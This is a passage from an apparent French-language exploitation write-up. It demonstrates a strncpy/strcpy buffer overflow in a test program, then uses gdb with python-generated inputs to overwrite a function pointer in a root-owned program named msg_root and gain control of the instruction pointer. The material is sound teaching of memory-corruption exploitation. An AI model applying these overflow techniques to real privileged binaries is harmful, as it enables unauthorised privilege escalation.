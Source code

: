 ```plain
./test 4 AAAA
Copie de 4 octets.
Copy: AAAAVVVVXXX.
s = XXX.
```

sans pour autant qu'on écrase tout le reste (strncpy s'arrête tout de même sinon aucun intérêt) :  

```plain
./test 4 AAAAAA
Copie de 4 octets.
Copy: AAAAVVVVXXX.
s = XXX.
```

A partir de 12 on a un comportement original car on écrase s et comme la chaîne n'est pas terminée elle lit des caractères dans count (et éventuellement du padding).  

```plain
./test 12 AAAAAAAAAAAA
Copie de 12 octets.
Copy: AAAAAAAAAAAA
                  .
s = AAAA
        .
```

G0tr00t ?
---------

Revenons à nos moutons en appliquant tout ça au programme qui nous intéresse. D'abord on teste avec un utilisateur de 17 caractères :  

```plain
sh-4.2$ gdb -q ./msg_root 
Reading symbols from msg_root...done.
(gdb) r `python -c "print 'A'*17"` test
Starting program: msg_root `python -c "print 'A'*17"` test

Program received signal SIGSEGV, Segmentation fault.
0x00414141 in ?? ()
```

On a bien écrasé *saved\_msg* (mais seulement en partie car strcpy a ajouté un octet nul) et le programme a tenté de sauter à cette adresse.  

Maintenant testons avec 18 caractères (ou plus).  

```plain
(gdb) r `python -c "print 'A'*25"` test
Starting program: msg_root `python -c "print 'A'*25"` test

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

Idem sauf qu'on écrase totalement le pointeur de fonction. On a donc le contrôle potentiel du flux d'exécution du programme.  
